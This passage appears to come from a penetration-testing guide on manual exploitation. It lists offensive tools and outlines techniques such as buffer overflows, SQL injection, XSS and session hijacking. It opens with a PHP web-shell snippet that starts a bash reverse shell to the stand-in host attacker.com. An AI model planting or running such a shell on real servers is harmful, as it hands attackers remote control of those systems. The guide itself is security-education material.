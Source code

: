    ```php
   <?php
   exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'");
   ?>
   ```

## Common Manual Exploitation Tools

### Information Gathering
- **Netcat**: Network connections and banner grabbing
- **Curl/Wget**: Web requests and content retrieval
- **Wireshark**: Packet capture and analysis
- **Python Requests**: Programmatic web requests

### Exploit Development
- **GDB/GEF**: Debugging and memory analysis
- **Python/Ruby/Perl**: Custom exploit script development
- **NASM**: Assembly development for shellcode
- **MSFvenom**: Standalone payload generation

### Web Application Testing
- **BurpSuite**: Web traffic interception and manipulation
- **SQLmap**: Manual SQL injection testing
- **OWASP ZAP**: Web application vulnerability scanning
- **Postman**: API testing and exploitation

### Post-Exploitation
- **Custom Shell Scripts**: Task automation
- **Netcat/Socat**: Network connections
- **Python/PowerShell**: Post-exploitation scripting
- **OpenSSL**: Secure tunneling

## Key Manual Exploitation Techniques

### 1. Memory Corruption
- **Buffer Overflows**: Overwriting adjacent memory
- **Format String Vulnerabilities**: Exploiting printf-style functions
- **Heap Exploitation**: Manipulating dynamic memory allocation
- **Return-Oriented Programming (ROP)**: Chaining existing code

### 2. Web Application Attacks
- **SQL Injection**: Manipulating database queries
- **Cross-Site Scripting (XSS)**: Injecting client-side scripts
- **Server-Side Request Forgery (SSRF)**: Making requests from the server
- **XML External Entity (XXE)**: Exploiting XML parsers

### 3. Authentication Bypass
- **Password Cracking**: Brute force or dictionary attacks
- **Session Hijacking**: Stealing authentication tokens
- **OAuth/JWT Abuse**: Exploiting implementation flaws
- **Cookie Manipulation**: Modifying client-side state
